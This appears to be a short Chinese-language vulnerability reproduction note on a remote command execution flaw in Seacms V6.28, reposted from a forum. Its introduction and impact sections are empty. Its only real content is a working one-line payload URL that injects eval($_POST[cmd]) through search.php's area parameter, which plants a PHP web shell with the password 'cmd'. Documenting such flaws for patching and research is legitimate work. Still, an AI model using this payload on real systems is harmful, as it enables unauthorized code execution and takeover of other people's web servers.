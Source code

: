 # Seacms V6.28

> 原文：[https://www.zhihuifly.com/t/topic/3113](https://www.zhihuifly.com/t/topic/3113)

# Seacms V6.28 远程命令执行漏洞

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
一句话payload，密码cmd: `[http://0-sec.org/search.php?searchtype=5&tid=&area=eval($_POST[cmd])](http://0-sec.org/search.php?searchtype=5&tid=&area=eval(%24_POST%5Bcmd%5D))` 
```